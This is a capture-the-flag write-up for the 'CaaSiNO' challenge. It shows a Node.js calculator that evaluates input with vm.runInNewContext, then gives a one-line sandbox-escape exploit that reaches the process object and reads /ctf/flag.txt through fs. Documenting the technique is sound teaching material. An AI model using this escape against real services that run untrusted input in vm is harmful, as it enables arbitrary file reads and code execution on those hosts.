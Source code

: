 # CaaSiNO

Source: [calculator.js](./calculator.js)

```js
rl.prompt();
rl.addListener("line", (input) => {
	if (input === "q") {
		process.exit(0);
	} else {
		try {
			const result = vm.runInNewContext(input);
			process.stdout.write(result + "\n");
		} catch {
			process.stdout.write("An error occurred.\n");
		}
		rl.prompt();
	}
});
```

Looking at the source, it appears to take your input and run it using `vm.runInNewContext`. Googling for `nodejs vm escape`, we find [this site](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html).

We can access the process object via `this.constructor.constructor('return this.process')()`. Based on this, reading the flag is easily accomplished through the `fs` module.

Final Exploit:

```js
this.constructor.constructor("return this.process")().mainModule.require("fs").readFileSync("/ctf/flag.txt").toString();
```

Flag: `flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}`
